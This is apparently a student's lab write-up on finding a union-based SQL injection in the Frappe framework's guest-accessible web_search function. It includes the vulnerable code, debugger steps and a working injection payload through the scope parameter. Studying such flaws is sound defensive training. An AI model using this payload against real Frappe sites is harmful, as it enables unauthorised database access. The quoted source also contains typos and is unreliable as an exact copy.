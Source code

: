 # SQL Injection

Continuing from the previous section, we’ll search for whitelisted, guest-accessible functions in the code, `@frappe.whitelist(allow_guest=True)`. Within these, we can check for any SQL being executed, leading us to the `web_search`function in `apps/frappe/frappe/utils/global_search.py`. 

In this function, the `text` variable is split into a list of multiple search strings by the character `&`, and loops through these search strings. The text is then passed into the `frappe.db.escape` function, and then appended into the query with the `format` function. However, while the `text` function is escaped when added, the other attributes `scope, start and limit` are not. As such, they are vulnerable to SQL injection. 

```python
@frappe.whitelist(allow_guest=True):
def web_search(text, scope=None, start=0, limit=20):
	results = []
	texts = text.split('&')
	for text in texts:
			common_query = '''SELECT `doctype`, `name`, `content`, `title`, `route` FROM 
									FROM __global_search WHERE {conditions} LIMIT {limit} OFFSET {start}'''
			scope_condition = '`route` like "{}%" AND '.format(scope) if scope else ''
			published_condition = '`published` = 1 AND '
			mariadb_conditions = postgres_coditions = ''.join([pubished_condition, scope_condition])
			
			text = '"{}"'.format(text)
			mariadb_conditions  += 'MATCH(`content`) AGAINST ({} IN BOOLEAN MODE)'.format(frappe.db.escape(text))
			postgres_conditions += 'TO_TSVECTOR("content") @@ PLAINTO_TSQUERY({})'.format(frappe.db.escape(text))
			
			result = frappe.db.multisql({
				'mariadb': common_query.format(conditions=mariadb_conditions, limit=limit, start=start),
				'postgres': common_query.format(conditions=postgres_conditions, limit=limit, start=start)
			}, as_dict = True)
```

We can set a breakpoint on the `web_search` function and then send a test command  to`frappe.utils.global_search.web_search&text=offsec`. Setting a breakpoint allows us to look into the query just before it is executed by the `multisql` function.

We can then `step over` (to line 420), and then `step in`to the `mutlisql` function, taking us to the `database/database.py` file.  From here, we can expand the `sql_dict` variable and examine the SQL query, getting the cleaned-up version of the SQL query. We can also insert other attributes like scope, start and limit, which modifies the query. The query will also be displayed in our MySQL logging page, giving us additional verification. 

```python
SELECT `doctype`, `name`, `content`, `title`, `route`
  FROM `__global_search`
  WHERE `published` = 1 AND  MATCH(`content`) AGAINST ('\"offsec\"' IN BOOLEAN MODE)
  LIMIT 20 OFFSET 0
```

When we set the other variables, we find an additional `like "test_scope%"` attribute inserted into the query. Unlike the escaped `text` parameter, our `scope` parameter is inserted as in, and hence be used to perform a union-based SQL injection by:

1.  Terminating the double quotes
2. Adding a UNION statement
3. Commenting out the remaining command. 

```sql
SELECT `doctype`, `name`, `content`, `title`, `route`
FROM `__global_search`
WHERE `published` = 1 AND  `route` like "test_scope%" AND MATCH(`content`) AGAINST ('offsec' IN BOOLEAN MODE)
LIMIT test_limit OFFSET test_start
```

Since the SQL query has 5 parameters, we know that the union injection should have 5 parameters. SQL Injection payload:

```python
test_scope" UNION ALL SELECT 1,2,3,4,5#
```

This leads to the query

```sql
Query SELECT `doctype`, `name`, `content`, `title`, `route`
FROM `__global_search`
WHERE `published` = 1 AND  `route` like "test_scope" UNION ALL SELECT 1,2,3,4,5
#%" AND MATCH(`content`) AGAINST ('\"offsec\"' IN BOOLEAN MODE)
```

Now, we can extract information like the database version by replacing one of the values with `@@version`

## Exercise 8.3.1.2

*Attempt to discover how the web_search function is used in the UI. Would it have been
possible to discover this kind of vulnerability in a black box assessment?*

Either through code review or through FFUF and page inspection, we find that the `web_search` function is invoked from the `get_search_results` function, another guest-accessible whitelisted function. Tracing back further, the `get_search_results` function is invoked from a `search.html` page, which invokes the function through `frappe.www.search.get_search_results`. Navigating to this page on our web browser (or discovering it through FFUF of common extensions like `.html`, we find the UI interface where the `web_search` function is used.